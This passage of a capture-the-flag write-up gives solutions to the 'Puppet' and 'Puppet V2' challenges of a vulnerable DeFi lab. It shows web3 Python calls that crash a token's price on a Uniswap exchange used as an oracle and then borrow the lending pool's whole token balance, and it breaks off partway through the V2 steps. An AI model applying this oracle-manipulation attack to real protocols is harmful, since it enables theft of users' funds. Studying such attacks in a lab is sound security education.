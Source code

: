 ```python
uniswap_exchange.tokenToEthSwapOutput(
    ether_to_wei(9.9), 
    ether_to_wei(1000), 
    web3.eth.get_block('latest').timestamp * 2, 
    _fromAttacker
)
```

Then calculate the required deposit of ETH in order to borrow *all* the tokens in the lending pool by calling `calculateDepositRequired()`:

```python
deposit_required = lending_pool.calculateDepositRequired(ether_to_wei(100000))
```

And finally, borrow all the tokens sending the value required assigned to the `deposit_required` variable:

```python
lending_pool.borrow(
    ether_to_wei(100000), 
    _fromAttacker | value_dict(deposit_required)
) 
```

This will effectively take all the tokens in the lending pool.

***

## Puppet V2

#### Challenge description

> The developers of the last lending pool are saying that they've learned the lesson. And just released a new version!
>
> Now they're using a Uniswap v2 exchange as a price oracle, along with the recommended utility libraries. That should be enough.
>
> You start with 20 ETH and 10000 DVT tokens in balance. The new lending pool has a million DVT tokens in balance. You know what to do ;)

#### Solution

This challenge is *identical* to the puppet challenge, except it uses Uniswap V2. Once again, we can manipulate the price of the token by selling a bunch of DVT tokens for ETH, which reduces the price of DVT tokens relative to ETH so much that it's possible to borrow the entire token balance of the PuppetV2Pool pool.

The only added change here is that Uniswap V2 only performs token to token swaps, where ETH must be wrapped as WETH (an ERC20 token 1:1 with ETH).

The steps to perform the attack are really similar to those of the Puppet challenge:

First we must approve the token spending limit for the Uniswap V2 router:
